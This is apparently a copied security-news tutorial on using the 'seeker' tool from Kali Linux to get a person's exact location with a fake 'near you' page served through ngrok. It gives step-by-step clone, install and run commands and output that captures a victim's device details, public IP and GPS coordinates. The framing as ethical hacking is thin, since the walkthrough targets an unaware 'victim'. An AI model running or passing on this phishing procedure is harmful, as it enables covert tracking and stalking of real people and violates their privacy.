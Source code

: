 
ref: https://www.securitynewspaper.com/2019/01/13/get-geolocation-of-anybody-in-just-few-mins/;

ref2: for test and check: https://github.com/jofpin/trape

Get Geolocation of anybody in just few mins

Everyone knows about phishing pages and its cause. Phishing page are spoof of original web pages where user enters his credentials and attacker steals username and password. In this scenario attacker make a replica of an original page where user thought that its an original webpage, mention ethical hacking investigators. Here we are talking about webpage which takes permission from the user and shows current location.

According to ethical hacking researcher of International Institute of Cyber Security it is very easy to find the location of any user with the help of a simple phishing page.

Today we will show you a tool called seeker. Seeker is an tool which gives you exact location of the target. Attacker can easily get its current location. This tool even gives longitude and latitude. If the target is moving it even shows speed of the target, as per ethical hacking courses.

Here our tested environment is on Android 7.0 Nougat. We have open seeker URL in android mobile. And attacker machine is Kali Linux 2018.4

    For cloning type git clone https://github.com/thewhiteh4t/seeker.git
    Then type cd seeker
    Type ls
    First you have to change permission of two files.
    Type chmod 777 install.sh
    Type chmod 777 seeker.py
    Then type ./install.sh
    Type python seeker.py
    After executing above query tool will start using ngrok services. Seeker will create an URL. 


    ```
    root@kali:/home/iicybersecurity/Downloads/seeker# python seeker.py
                         _          |  |    
  /  // _ _/ _ \ |  |/ // _ \  _ \  __ \ \  /\  / |    < \  / |  | \/
 /_  > _  >__  >||_ \ _  >|__|
          \/      \/     \/      \/     \/

 
[>] Created By : thewhiteh4t
 [>] Version    : 1.0.9 
 
[+] Checking Internet Connection… Working 
 
[+] Checking For Seeker Updates… Up-to-date 

[+] Starting PHP Server… 
 
[+] Starting Ngrok… 

[+] URL : https://cdf863f9.ngrok.io/nearyou/ 
 
[+] Waiting for User Interaction… 
```

    After executing above query, seeker will start. Now target has to open the above link in web browser.
    Open above link which is made by seeker tool into mobile web browser. We have opened link in Lightning web browser.
    You can use any web browser.

seeker-1.png
seeker-2.png
seeker-3.png

    Click on continue icon, this click will allow attacker to access location of the victim. Here is webpage that most of the victims become fall. They simply gives access.
    Attacker gathers location of the tartget.

seeker-4.png

Clicking OK, simply changes the webpage CONTINUE to COMING SOON

seeker-5.png

After victim giving permission to the webpage. Below information is gathered on the attacker kali machine running seeker.

```
[+] Device Information : 
 
[+] OS         : Android 7.0
 [+] Platform   : Linux armv8l
 [+] CPU Cores  : 8
 [+] RAM        : 2
 [+] GPU Vendor : Qualcomm
 [+] GPU        : Adreno (TM) 506
 [+] Resolution : 360x640
 [+] Browser    : Chrome/71.0.3578.99
 [+] Public IP  : 2405:204:3085:8e13:e037:d2bd:c9dc:220e 
 
[+] Location Information : 

[+] Latitude  : 19.4326 deg
 [+] Longitude : 99.1332 deg
 [+] Accuracy  : 47.027000427246094 m
 [+] Altitude  : 169 m
 [+] Direction : 0 deg
 [+] Speed     : 0 m/s 
 
[+] Google Maps : 
https://www.google.com/maps/place/19%C2%B025'57.4%22N+99%C2%B007'59.5%22E/

[+] Waiting for User Interaction… 
```

    As you can see, Seeker has gathered lot of information of the target. The information like platform, OS, RAM, GPU, PUBLIC IP.
    You can also open google maps coordinates in web browser to see current location of the target.

seeker-6.png